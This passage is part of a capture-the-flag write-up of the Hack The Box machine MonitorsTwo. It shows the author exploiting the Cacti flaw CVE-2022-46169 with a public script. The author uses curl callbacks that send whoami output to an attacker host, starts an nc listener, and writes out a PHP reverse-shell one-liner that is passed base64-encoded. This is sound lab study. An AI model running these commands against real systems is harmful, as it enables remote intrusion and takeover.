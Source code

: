 Let's try if the target is vulnerable!

    ┌──(in7rud3r㉿kali-muletto)-[~/…/_10.10.11.211 - MonitorsTwo (lin)/attack/git/CVE-2022-46169]
    └─$ python3 CVE-2022-46169.py -c "curl http://10.10.14.84/" http://10.10.11.211/
    [*] Trying for 1 - 100 host ids
    [+] Exploit Completed for host_id = 1
    

And it seems yes.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ php -S 10.10.14.84:80
    [Sun May 14 16:26:09 2023] PHP 8.2.4 Development Server (http://10.10.14.84:80) started
    [Sun May 14 16:29:02 2023] 10.10.11.211:52720 Accepted
    [Sun May 14 16:29:02 2023] 10.10.11.211:52720 [404]: GET / - No such file or directory
    [Sun May 14 16:29:02 2023] 10.10.11.211:52720 Closing
    

Really good, let's understand who am I!

    ┌──(in7rud3r㉿kali-muletto)-[~/…/_10.10.11.211 - MonitorsTwo (lin)/attack/git/CVE-2022-46169]
    └─$ python3 CVE-2022-46169.py -c "curl \"http://10.10.14.84/\$(whoami)\"" http://10.10.11.211/
    [*] Trying for 1 - 100 host ids
    [+] Exploit Completed for host_id = 1
    

What I expected!

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ php -S 10.10.14.84:80 
    [Sun May 14 16:39:09 2023] PHP 8.2.4 Development Server (http://10.10.14.84:80) started
    [Sun May 14 16:40:28 2023] 10.10.11.211:56602 Accepted
    [Sun May 14 16:40:28 2023] 10.10.11.211:56602 [404]: GET /www-data - No such file or directory
    [Sun May 14 16:40:28 2023] 10.10.11.211:56602 Closing
    

We can then to the **reverse shell**... listener listening (that's horrible)...

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ nc -lvp 4444         
    listening on [any] 4444 ...
    

...and attack!  
After a lot of **reverse shells**, I found the right one:

    php -r '$sock=fsockopen("10.10.14.84",4444);exec("/bin/bash <&3 >&3 2>&3");'
    

That I have to pass in **base64**!

    ┌──(in7rud3r㉿kali-muletto)-[~/…/_10.10.11.211 - MonitorsTwo (lin)/attack/git/CVE-2022-46169]
    └─$ python3 CVE-2022-46169.py -c "echo 'cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjEwLjE0Ljg0Iiw0NDQ0KTtleGVjKCIvYmluL2Jhc2ggPCYzID4mMyAyPiYzIik7Jw==' | base64 -d | sh" http://10.10.11.211/
    [*] Trying for 1 - 100 host ids
    

You can generate your **reverse shell** in a simple way using this site:

[Online - Reverse Shell Generator](https://www.revshells.com/?ref=secjuice.com)
